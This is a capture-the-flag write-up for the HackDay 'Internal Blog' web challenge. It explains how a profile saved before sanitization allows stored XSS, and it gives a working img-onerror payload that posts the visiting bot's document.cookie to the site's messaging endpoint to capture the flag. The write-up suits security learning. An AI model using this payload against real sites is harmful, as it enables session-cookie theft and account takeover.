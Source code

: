 # Internal Blog

> You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...
> 
> The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.
> 
> `challenges.hackday.fr:61394`

Upon opening the website, we see the following webpage with articles.

![Homepage](img1.png)

We should notice the code leak here that could help us later.

```js
      await NewProfile.save();
      const isXSSDetected = sanitizeJson(profileData, res);
      if (isXSSDetected) return;
      console.log('Profile created :', profileData);
      res.redirect(`/user?token=${token}`);
    } catch (err) {
      console.error('Error while creating profile :', err);
      res.status(500).send('Error while creating profile.');
    }
});
```

We can create a profile, create an article as a user, and send a message to another user.

![Create Article Page](img2.png)
![Register Page](img3.png)
![Register Page 2](img4.png)
![User Profile Page](img5.png)
![Send Message Page](img6.png)

If we try to send a message, we will be redirected to `http://challenges.hackday.fr:61394/sendmessage`. The message will then appear in user's profile.

![Sending Message](img7.png)
![Sending Message Result](img8.png)
![Sending Message Profile](img9.png)

So, what do we know?

- From the description we know, that our goal is to receive bot's cookies, and the internal server runs on port 3000.
- From the homepage, we know that Administrator (bot) will check the user's profile when they post an article to verify it.
- Additionally, the code leak tells us that the website has **XSS** protection, but `await NewProfile.save();` saves the account before sanitizing the inputs.
- We could send a POST request with "contact" and "message" fields to `http://challenges.hackday.fr:61394/sendmessage` and it will appear in the user's profile.

Now we should combine our knowledge to create a plan of action.
1. We should create a profile with **reflected XSS** in the inputs.
2. This **reflected XSS** should send a POST request to the `/sendmessage` with our profile's contact ID as the "contact" field and the bot's cookies as the "message" field.
3. We should post a new article and wait for Evil Administator to check our profile.
4. Finally, we should check our profile to see if we received the message.

Let's start our work.

Firstly, we will create a new profile with the following script.

```html
<img src="invalid-image" onerror="
  fetch('/sendmessage', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'contact=<OUR_CONTACT_TOKEN>&message='+document.cookie
  });
">
```

![Creating XSS Profile](img10.png)

The server has detected XSS, but that's okay for us because the profile was created.

![XSS Detected](img11.png)

Next, we will create a new article using our token.

![New Article Creation](img12.png)
![New Article was Created](img13.png)

Now we should wait a few seconds and open our profile by navigating to `http://challenges.hackday.fr:61394/user?token=<OUR_TOKEN>`

![Profile With Flag](img14.png)

`HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}`
